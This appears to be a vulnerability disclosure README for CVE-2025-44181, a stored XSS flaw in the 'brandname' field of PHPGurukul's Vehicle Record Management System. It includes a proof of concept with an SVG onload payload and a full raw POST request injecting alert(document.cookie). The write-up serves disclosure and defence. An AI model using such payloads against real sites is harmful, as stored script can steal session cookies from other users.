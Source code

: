 # Vehicle-Record-Management-System
XSS vulnerability to Vehicle Record Management System
# CVE-2025-44181-Phpgurukul-Vehicle-Record-Management-System-v1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: nscerol
# Vendor Homepage
+ https://phpgurukul.com/vehicle-record-system-using-php-and-mysql/
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=19587
# Overview
+ PHPGurukul Vehicle Record Management System is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through brandname parameter in the /edit-brand.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2025-44181
+ Affected Version: PHPGurukul Vehicle Record Management System V1.0
+ Vulnerable File: /admin/add-brand.php
+ Parameters: brandname
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-44181
+ https://nvd.nist.gov/vuln/detail/CVE-2025-44181
# Description
+ The parameters 'brandname' in the add-brand.php file of PHPGurukul Vehicle Record Management System V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Go to the admin profile page and click to 'Brand'-->'Add Brand' button to update
+ Enter a name for Brand Name
+ Intercept the POST request to add-brand.php via Burp Suite
+ Inject the payload to the vulnerable parameter
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `brandname` parameter
```
POST /vehiclerecordsystem/admin/add-brand.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: https://localhost
Connection: keep-alive
Referer: https://localhost/vehiclerecordsystem/admin/add-brand.php
Cookie: PHPSESSID=hvah0765vcec9jtep84vlv5eeh
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

brandname=BYD%22%3E%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E&submit=+Submit
```
+ Go to the Brand-->Manage Brand--> Edit page and trigger the XSS -->
+ <img width="663" alt="image" src="https://github.com/user-attachments/assets/5a4a9b08-debb-4861-a4f6-bfa5b92d970f" />


